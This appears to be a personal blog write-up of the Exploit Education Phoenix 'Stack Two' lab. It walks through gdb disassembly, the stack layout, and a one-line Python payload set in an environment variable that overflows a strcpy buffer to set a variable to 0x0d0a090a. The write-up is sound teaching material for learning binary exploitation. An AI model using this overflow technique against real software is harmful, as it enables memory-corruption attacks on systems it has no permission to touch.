 ```yaml
---
layout: post
title: Stack Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Stack Two exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)

### Quick Overview

Similar to Stack One, Stack Two exercise motive is to smash the stack to modify other variables in the stack to a `hex value 0x0d0a090a` but receives the value from the environment variable `ExploitEducation`. Technically, similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-two code, One can use `gdb ./stack-two` to start debugging it in runtime.

1. `gdb ./stack-two`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004006ad <+0>:     push   rbp
   0x00000000004006ae <+1>:     mov    rbp,rsp
   0x00000000004006b1 <+4>:     sub    rsp,0x60
   0x00000000004006b5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:    mov    edi,0x400790
   0x00000000004006c1 <+20>:    call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:    mov    edi,0x4007da
   0x00000000004006cb <+30>:    call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:    jne    0x4006ef <main+66>
   0x00000000004006db <+46>:    mov    esi,0x4007f0
   0x00000000004006e0 <+51>:    mov    edi,0x1
   0x00000000004006e5 <+56>:    mov    eax,0x0
   0x00000000004006ea <+61>:    call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:    lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:    mov    rsi,rdx
   0x0000000000400701 <+84>:    mov    rdi,rax
   0x0000000000400704 <+87>:    call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:    cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:   jne    0x40071f <main+114>
   0x0000000000400713 <+102>:   mov    edi,0x400828
   0x0000000000400718 <+107>:   call   0x400500 <puts@plt>
   0x000000000040071d <+112>:   jmp    0x400733 <main+134>
   0x000000000040071f <+114>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:   mov    esi,eax
   0x0000000000400724 <+119>:   mov    edi,0x400870
   0x0000000000400729 <+124>:   mov    eax,0x0
   0x000000000040072e <+129>:   call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:   mov    edi,0x0
   0x0000000000400738 <+139>:   call   0x400520 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-two using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Utilizes `getEnv` aka `getenv@plt` to `ExploitEducation` pointer in the memory
3. Set `locals.changeme` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by declared environment variable
5. Verify `locals.changeme` is `0x0d0a090a` in hex
5. Use puts(aka Printf) method to greet the user again with decision (cmp instruction)
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe600` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-two-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5b0` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe5f0`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully. However, our challenge is to overwrite `locals.changeme` variable with `0x0d0a090a`. If you try generating the payload simply  `(A * 64) + '\x0d\x0a\x09\x0a'`, this would represent in the memory as `64 'A's & 0x0a090a0d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x0a\x09\x0a\x0d'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-two-gdb.jpg)

You'll have to set the environment variable before executing the payload.

`> export ExploitEducation=$(python -c "print('A'*64 + '\x0a\x09\x0a\x0d')")`

```assembly
(gdb) r 
Starting program: /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[Inferior 1 (process 426) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Two Exercise: [Exploit Education](https://exploit.education/phoenix/stack-two/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
